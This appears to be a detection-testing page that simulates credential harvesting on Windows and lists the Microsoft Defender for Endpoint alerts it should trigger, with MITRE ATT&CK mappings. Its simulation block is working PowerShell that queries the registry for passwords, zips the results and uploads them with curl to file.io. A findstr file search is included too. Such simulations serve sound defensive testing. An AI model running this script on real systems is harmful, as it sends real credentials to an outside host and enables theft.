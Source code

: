 # Password Detection

Attackers will query the Registry and local file system to find credentials and passwords saved by programs, services, user-created credential files, shared credential stores, configuration files with system or service passwords, or source code and binaries with embedded credentialsusers which may be used for automatic logons, enabling attackers to gain unauthorized access. Attackers then leverage the discovered password information to launch further attacks, such as unauthorized access, privilege escalation, or lateral movement within the network.

## Simulation

Search the local registry and file system to detect potential credentials that can be used elsewhere.

### Registry Search

```powershell
$uploadLocation = "http://file.io/?expires=1s"
$folderPath = $folderPath = "$env:TEMP\creds"
New-Item -Path $folderPath -ItemType Directory -ErrorAction SilentlyContinue

reg query HKCU /f password /t REG_SZ /s > "$folderPath\HKCU_Passwords.txt"
reg query HKLM /f password /t REG_SZ /s > "$folderPath\HKLM_Passwords.txt"

$zipFilePath = "$folderPath\passwords.zip"
Compress-Archive -Path $folderPath -DestinationPath $zipFilePath -Force

curl -F "file=@$zipFilePath" $uploadLocation
```

### File System Search

```powershell
findstr /s /i /m "password" *.*
```

## Cleanup

```powershell
$folderPath = $folderPath = "$env:TEMP\creds"
Remove-Item -Path $folderPath -Recurse -Force
```

## Detections

| Alert Title | Alert Description | Alert Details |
| -- | -- | -- |
| Registry queried for passwords | A registry query operation searching for passwords was performed. Attackers search through registry keys, values, and data to steal credentials. | **Category:** Credential access<br/>**MITRE ATT&CK Techniques:** T1003: OS Credential Dumping, T1012: Query Registry, T1552.002: Credentials in Registry<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** EDR <br/>**Detection technology:** Behavior,Network<br/>**Detection status:** Detected |
| Password stealing from files | An attacker tried to look for passwords in files or sysvol (MS14-025) | **Category:** Discovery<br/>**MITRE ATT&CK Techniques:** T1003: OS Credential Dumping, T1201: Password Policy Discovery, T1552: Unsecured Credentials, T1552.001: Credentials In Files, T1555: Credentials from Password Stores<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** EDR<br/>**Detection technology:** Behavior,Network<br/>**Detection status:** Detected<br/> |
| Suspicious curl behavior | Suspicious curl behavior has been observed on this machine. Attackers may use curl to download malicious files onto your machine, or to copy malicious files onto other machines in your network. | **Category:** Malware<br/>**MITRE ATT&CK Techniques:** T1105: Ingress Tool Transfer<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** EDR<br/>**Detection technology:** Behavior<br/>**Detection status:** Detected |
| Possible content exfiltration | Data and file exfiltration was observed on this device. Attackers might be collecting sensitive data, including credentials for different services. Attackers often package the data collected to avoid detection on removal. | **Category:** Malware<br/>**MITRE ATT&CK Techniques:** T1041: Exfiltration Over C2 Channel, T1048: Exfiltration Over Alternative Protocol, T1048.002: Exfiltration Over Asymmetric Encrypted Non-C2 Protocol, T1567: Exfiltration Over Web Service<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** EDR<br/>**Detection technology:** Behavior,Network<br/>**Detection status:** Detected |
